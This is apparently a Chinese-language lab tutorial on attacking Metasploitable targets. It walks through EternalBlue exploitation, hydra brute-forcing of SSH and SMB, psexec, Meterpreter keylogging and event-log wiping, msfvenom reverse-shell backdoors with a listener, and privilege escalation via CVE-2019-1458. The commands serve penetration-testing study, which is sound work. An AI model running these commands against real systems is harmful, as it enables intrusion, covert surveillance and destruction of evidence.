


# 3_1 Metaploitable渗透实验

# 1、主机信息收集

扫描192.168.1.0地址段存活主机

```
nmap -sn 192.168.1.0/24
```


发现可能存活的主机为192.168.1.253

对目标ip进行操作系统识别。

```
 nmap -O 192.168.1.25
```


可以得到主机的一些基本情况。

尝试使用msf对它进行永恒之蓝攻击。


使用ms17_010_eternalblue命令。

```
 use exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.1.253
```

运行成功后拿到meterpreter


输入shell进入shell会话


`net user`查询用户信息


`net accounts`列出用户账户的密码策略


`net share`，查询共享文件夹


`whoami`可列出当前用户，SID 安全标识符，用户权限和用户所属组等信息。

` ipconfig /all` 命令查询主机 ip 地址。可看到主机的计算机名，ip 地址等信息。


输入 `netstat -ano`查询端口开放情况。可看到主机端口的开放情况，可与之前使用的nmap 识别结果相对应。


输入`arp -a`查询通信情况。可看到主机的网络情况


输入 `route print` 查询路由表信息


输入 `tasklist` 查询主机运行进程。主要关注运行了哪些安全软件


输入 `systeminfo` 命令，查看系统版本和补丁信息


# 2、metasploitable3靶机攻击之弱口令穷举利用

输入 `nmap -sn 192.168.220.0/24` 命令,扫描 192.168.220.0 地址段的存活主机。从扫描结果来看，可能存活主机 ip 有 192.168.220.136


使用 `nmap -A 192.168.220.136` 对目标进行扫描.


输入` hydra -h` 命令，查看九头蛇工具帮助文档。由于目标开放了一些端口，我们使用穷举工具对这些端口进行扫描，看能否得到账号密码加以利用.


输入 `hydra -l vagrant -P /root/dictionary.txt -e ns -vV -t 1 -f 192.168.220.136 ssh`命令，对目标 ssh 服务进行穷举。


可以看到账号密码都为 vagrant。

输入 `hydra -l vagrant -P /root/dictionary.txt 192.168.220.136 smb` 命令，对目标 445 端口进行穷举，可看到目标账号密码均为 vagrant。


打开新的终端，输入 msfconsole，打开 msf 终端。我们对穷举出来的 smb 账号密码进行利用。利用 msf 的 psexec 模块。

输入 `use exploit/windows/smb/psexec` 命令，使用该模块。


输入run运行模块，可看到拿到了 meterpreter 会话，之后可进行后渗透。

# 12、meterpreter后渗透利用

`nmap -sn 192.168.1.0/24`命令,扫描 192.168.1.0 地址段的存活主机。



输入命令`nmap -A 192.168.1.253`，对目标进行操作系统信息收集


输入命令`msfconsole` ，打开 msf 工具



`use exploit/windows/smb/ms17_010_eternalblue`，启用永恒之蓝模块.


运行成功后拿到 meterprete.


输入 `background` 命令，可将会话放到后台。

输入 `sessions 1`，可以切换 session 会话。进入到了刚才的 meterpreter 会话


输入 `upload /root/dictionary.txt c:\1.txt` 命令，可以将 kali 本地文件上传到目标服务器。


 输入命令 `download c:\1.txt` ，可将目标服务器上的文件下载到 kali。


输入 `execute -H -i -f cmd.exe` 命令，在目标上执行 cmd.exe 命令


 输入 `keyscan_start` 命令，开启键盘记录


 输入 `ps` 命令，查看正在运行的进程列表。可使用 kill pid，命令终止指定的进程，pid为进程号。


输入 `clearev` 命令，删除目标系统的事件日志.


# 13、msfvenom使用

 `msfvenom -h` 命令，查看帮助文档.


`msfvenom -l payloads`查看可以使用的payload类型。


输入 `msfvenom -p windows/meterpreter/reverse_tcp --list-options `命令，查看该payload 支持哪些平台以及一些所需要的参数等信息。


输入`msfvenom -l encoders` 命令，查看有哪些编码器。可看到可以供我们使用的编码器。


 输入 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f exe > /root/shell.exe` 命令，生成 windows x64 的反向连接后门。


可以看到/root 目录下生成了 shell.exe 的后门文件.

 输入 `msfconsole` 打开 msf 终端。使用 msf 的监听模块，利用生成的后门文件获取 shell.

输入 search handler 命令，查找 msf 的监听模块


输入 `use exploit/multi/handler` 命令，使用 msf 的监听模块

输入` set payload windows/x64/meterpreter/reverse_tc`，设置监听模块的payload 类型为恶意文件的 payload。


输入命令 set lhost 192.168.1.2、set lport 7777，设置监听模块的参数。


输入 `run` 执行监听模块。此时如果目标运行了我们发送的恶意文件，我们即可获得shell。


打开 ip 地址为 192.168.1.253 的目标靶机，双击 d:\下的 shell.exe 文件。这里的shell.exe 即为刚才 msfvenom 生成的，模拟目标执行恶意文件.


返回 ip 为 192.168.1.2 的 kali 虚拟机，打开 msf 终端查看，获取 meterpreter 会话。


# 14、本地权限提示

输入 `msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.1.2 -f exe -o 4444.exe `命令，生成 msf 反向连接后门.


终端，输入 `msfconsole` 命令，打开 msf 终端

输入 `use exploit/multi/handler` 命令，使用 msf 监听模块。

输入 `set payload windows/x64/meterpreter/reverse_tcp` 命令，指定 payload 类型刚才反向连接后门生成所使用的 payload。

输入 `set lhost 192.168.1.2` 命令，指定 lhost 参数 ip。可看到已经成功设定。


输入 `run` 命令执行命令，进行监听。


打开 ip 地址为 192.168.1.253 的靶机，双击 d:\下的 4444.exe。（模拟执行恶意文件）


返回到 ip 为 192.168.1.2 的 kali 虚拟机，回到 msf 终端。可看到执行后，获取到了一个 session 会话。


输入 `getuid` 命令。查看目标权限，可看到是超级管理员权限


输入 `use post/multi/recon/local_exploit_suggester` 命令，使用 msf 内置的提权 exp扫描模块。


输入 run 命令，执行模块。可看到检测到了提权利用模块，该模块会把扫描到的可利用的提权模块列举下来，可看到列出了可利用的提权模块，都可以尝试使用.


输入 `use exploit/windows/local/cve_2019_1458_wizardopium `命令，使用该提权模块.使用第一个尝试提权，如果不成功可使用其他模块。


输入 getuid 查看权限。可看到是 system 权限，提权成功


